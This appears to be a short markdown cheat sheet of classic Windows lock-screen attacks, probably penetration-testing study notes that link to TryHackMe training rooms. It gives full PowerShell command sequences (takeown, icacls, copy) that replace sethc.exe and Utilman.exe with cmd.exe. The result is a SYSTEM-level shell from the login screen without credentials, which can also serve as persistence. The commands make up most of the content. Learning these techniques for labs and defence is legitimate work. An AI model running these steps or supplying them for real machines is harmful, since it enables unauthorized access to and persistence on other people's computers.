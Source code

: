 # Classic Windows Login/Lock Screen Hacks
## Sticky Keys
Pressing Shift 5 times triggers `C:\Windows\System32\sethc.exe`. On unencrypted Windows systems, replacing that with cmd.exe will get you a shell running as SYSTEM without logging in.

```powershell
# Take ownership of the file (requires admin privileges).
#
takeown /f c:\Windows\System32\sethc.exe

# Grant the current user permission to modify it.
#
icacls C:\Windows\System32\sethc.exe /grant $CURRENT_USER:F

# Overwrite with cmd.exe.
#
copy c:\Windows\System32\cmd.exe C:\Windows\System32\sethc.exe
```

### Additional Resources
* [TryHackMe: Windows Privilege Escalation](https://tryhackme.com/room/windowsprivesc20)
* [TryHackMe: Windows Local Persistence](https://tryhackme.com/room/windowslocalpersistence) 

## Utilman
`Utilman.exe` is the built-in Windows app to provide Ease of Access options from the lock screen. It’s launched by clicking on the Ease of Access button.

It can be replaced in the same fashion as `sethc.exe`.

```powershell
# Take ownership of the file (requires admin privileges).
#
takeown /f c:\Windows\System32\Utilman.exe

# Grant the current user permission to modify it.
#
icacls C:\Windows\System32\Utilman.exe /grant $CURRENT_USER:F

# Overwrite with cmd.exe.
#
copy c:\Windows\System32\cmd.exe `
	C:\Windows\System32\Utilman.exe
```

### Additional Resources
* [TryHackMe: Windows Local Persistence](https://tryhackme.com/room/windowslocalpersistence) 

